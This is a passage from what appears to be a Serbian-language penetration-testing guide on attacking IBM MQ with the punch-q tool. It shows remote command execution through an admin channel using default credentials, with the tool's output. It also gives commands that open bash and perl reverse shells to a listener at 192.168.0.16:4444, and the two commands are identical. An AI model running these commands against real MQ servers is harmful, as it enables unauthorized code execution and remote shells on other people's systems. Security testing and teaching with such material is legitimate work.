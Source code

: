> U zapisima IBM MQ-a možete pročitati da je komanda uspešno izvršena:
>
> ```bash
> 2023-10-10T19:13:01.713Z AMQ5030I: Komanda '808544aa7fc94c48' je pokrenuta. ProcessId(618). [ArithInsert1(618), CommentInsert1(808544aa7fc94c48)]
> ```

Takođe možete nabrojati postojeće programe na mašini (ovde `/bin/doesnotexist` ... ne postoji):

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/doesnotexist" --arg
s "whatever"
Command: /bin/doesnotexist
Arguments: -c id
Service Name: 6e3ef5af652b4436

Creating service...
Starting service...
The program '/bin/doesnotexist' is not available on the remote system.
Giving the service 0 second(s) to live...
Cleaning up service...
Done
```

**Imajte na umu da je pokretanje programa asinhrono. Dakle, potrebna vam je druga stavka da biste iskoristili ranjivost** _**(slušalica za obrnutu ljusku, kreiranje datoteke na drugoj usluzi, eksfiltracija podataka putem mreže...)**_

**Primer 2**

Za jednostavnu obrnutu ljusku, **punch-q** takođe nudi dva payloada za obrnutu ljusku:

* Jedan sa bashom
* Jedan sa perlom

_Naravno, možete napraviti prilagođeni payload pomoću komande `execute`._

Za bash:

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```

Za perl:

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```

### Prilagođeni PCF

Možete istražiti IBM MQ dokumentaciju i direktno koristiti **pymqi** Python biblioteku da biste testirali određenu PCF komandu koja nije implementirana u **punch-q**.

**Primer:**
